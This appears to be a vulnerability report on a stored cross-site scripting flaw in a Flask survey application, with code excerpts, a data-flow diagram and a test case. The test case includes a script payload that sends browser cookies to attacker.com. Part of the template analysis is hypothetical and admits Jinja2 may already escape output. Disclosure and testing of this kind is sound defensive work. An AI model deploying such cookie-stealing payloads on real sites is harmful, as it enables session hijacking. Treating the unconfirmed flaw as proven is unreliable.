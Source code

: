 ### Vulnerability List

* Vulnerability Name: Stored Cross-Site Scripting (XSS) in Survey Creation

* Description:
    1. An attacker can create a new survey or edit an existing survey through the web interface.
    2. In the survey creation/edit form, the attacker inputs malicious JavaScript code into one of the survey fields, such as question text or answer text.
    3. The application stores this malicious script in the Firestore database without sanitization.
    4. When a user (either an administrator previewing the survey or an end-user taking the survey) accesses the survey, the application retrieves the survey data from Firestore.
    5. The application renders the survey using the `creative.html` template, directly embedding the unsanitized survey data, including the malicious script, into the HTML.
    6. The user's browser executes the embedded malicious script, leading to Stored XSS.

* Impact:
    - Account Takeover: An attacker could potentially steal administrator or user session cookies, leading to account hijacking.
    - Data Theft: Malicious scripts can access sensitive data accessible to the user, and transmit it to a third-party server controlled by the attacker.
    - Defacement: The attacker could modify the content of the survey page or redirect users to malicious websites.
    - Further attacks: XSS can be a stepping stone for more complex attacks, such as phishing or malware distribution.

* Vulnerability Rank: High

* Currently Implemented Mitigations:
    - Basic Authentication: The application uses basic authentication (`flask-basicauth`) to protect access to the survey creation and management interface. This is configured in `main.py` using environment variables `AUTH_USERNAME` and `AUTH_PASSWORD`. However, this is not a sufficient mitigation for XSS as it only restricts access to the admin interface, but doesn't prevent XSS if an authenticated user injects malicious code.

* Missing Mitigations:
    - Input Sanitization/Escaping: The application lacks proper input sanitization or output escaping for user-provided survey content. Specifically, it needs to sanitize or escape HTML special characters and JavaScript code within the survey questions and answers before storing them in the database and before rendering them in HTML templates.
    - Content Security Policy (CSP): Implementing a Content Security Policy (CSP) would help mitigate the impact of XSS by restricting the sources from which the browser is allowed to load resources, and by disallowing inline JavaScript.

* Preconditions:
    - Access to the survey creation/edit interface: An attacker needs to be able to access the survey creation or edit pages. This is currently protected by basic authentication. If the attacker has valid credentials or can bypass the authentication, they can exploit this vulnerability.

* Source Code Analysis:
    1. **File: `/code/creative/app/main.py` - Route `/survey/create` and `/survey/edit`**:
        - The `create()` and `edit()` functions handle survey creation and editing.
        - They use `forms.QuestionForm()` to process user input.
        - `survey_service.create(form)` and `survey_service.update_by_id(docref_id, form)` are called to store the survey data.
        - **Crucially, there is no input sanitization performed on the form data before it is passed to `survey_service` and stored in the database.**

    ```python
    @app.route('/survey/create', methods=['GET', 'POST'])
    def create():
      """Survey creation."""
      form = forms.QuestionForm()
      if form.validate_on_submit():
        survey_service.create(form) # No sanitization here
        return redirect(url_for('index'))
      return render_template('questions.html', title='Survey Creation', form=form)


    @app.route('/survey/edit', methods=['POST', 'PUT', 'GET'])
    def edit():
      """Edit Survey."""
      form = forms.QuestionForm()
      docref_id = request.args.get('survey_id')
      edit_doc = survey_service.get_doc_by_id(docref_id)
      if request.method == 'GET':
        survey_service.set_form_data(form, edit_doc)
      if form.validate_on_submit():
        survey_service.update_by_id(docref_id, form) # No sanitization here
        return redirect(url_for('index'))
      return render_template('questions.html', form=form)
    ```

    2. **File: `/code/creative/app/survey_service.py` - Function `get_html_template`**:
        - This function is responsible for rendering the `creative.html` template.
        - It passes `survey_dict` (which contains the survey data retrieved from Firestore) directly to the `render_template` function.
        - **No output escaping is performed on `survey_dict` before rendering. This means that any malicious JavaScript code stored in the survey data will be directly embedded into the HTML output without being escaped.**

    ```python
    def get_html_template(survey_id, survey_dict, seg_type):
      return render_template(
          'creative.html',
          survey=survey_dict, # Unsanitized survey data passed to template
          survey_id=survey_id,
          show_back_button=False,
          all_question_json=get_question_json(survey_dict),
          seg=seg_type,
          thankyou_text=get_thank_you_text(survey_dict),
          next_text=get_next_text(survey_dict),
          comment_text=get_comment_text(survey_dict))
    ```

    3. **File: `/code/creative/app/templates/creative.html` - Template rendering**:
        - The `creative.html` template likely uses Jinja2 templating to display the survey data.
        - If the template uses constructs like `{{ survey.question1 }}` directly, it will render the content of `survey.question1` without escaping.
        - **By default, Jinja2 auto-escaping is enabled for HTML context but it depends on the usage in the template. Even with auto-escaping, there might be contexts where it's not effective, or developers might have disabled it.**

    ```html+jinja
    {# Example snippet from creative.html (Hypothetical) #}
    <div>
        <p>{{ survey.question1 }}</p>  {# Potentially vulnerable if not escaped properly #}
        {# ... rest of the template ... #}
    </div>
    ```

    **Visualization:**

    ```
    User (Attacker) --> Survey Creation Form --> main.py (create/edit route) --> survey_service.py (create/update) --> Firestore (Stores malicious script)
    User (Viewer) --> /survey/preview/<survey_id> or Survey Execution --> main.py (preview route) --> survey_service.py (get_html_template) --> creative.html (Renders unsanitized data) --> User Browser (XSS execution)
    ```

* Security Test Case:
    1. **Precondition:** Ensure you have access to the Brandometer application with valid basic authentication credentials to create or edit surveys.
    2. **Login:** Access the Brandometer application's survey management interface and log in using the basic authentication credentials.
    3. **Create or Edit Survey:**
        - Navigate to the survey creation page ("/survey/create") or edit an existing survey ("/survey/edit?survey_id=[existing_survey_id]").
        - In the survey form, locate the "Question 1" field.
        - Input the following malicious payload into the "Question 1" field:
          ```html
          <img src="x" onerror="alert('XSS Vulnerability Detected!')">
          ```
          Alternatively, you can use a more harmful payload like:
          ```html
          <script>document.location='http://attacker.com/cookie_stealer.php?cookie='+document.cookie</script>
          ```
          Replace `http://attacker.com/cookie_stealer.php` with a URL you control to capture cookies.
        - Fill out the rest of the required fields in the survey form to ensure it can be submitted.
        - Submit the survey form.
    4. **Preview Survey:**
        - After successfully creating or editing the survey, navigate to the survey preview page: "/survey/preview/[survey_id]" (replace `[survey_id]` with the actual survey ID of the survey you just created or edited).
    5. **Verify XSS:**
        - Observe if an alert box pops up with the message "XSS Vulnerability Detected!". If you used the `<script>` payload, check if a request is sent to `http://attacker.com/cookie_stealer.php` with the document's cookies.
        - If the alert box appears or the cookie stealer is triggered, it confirms that the Stored XSS vulnerability exists.

This test case demonstrates that malicious JavaScript code injected into the survey question is executed when the survey is previewed, confirming the Stored XSS vulnerability.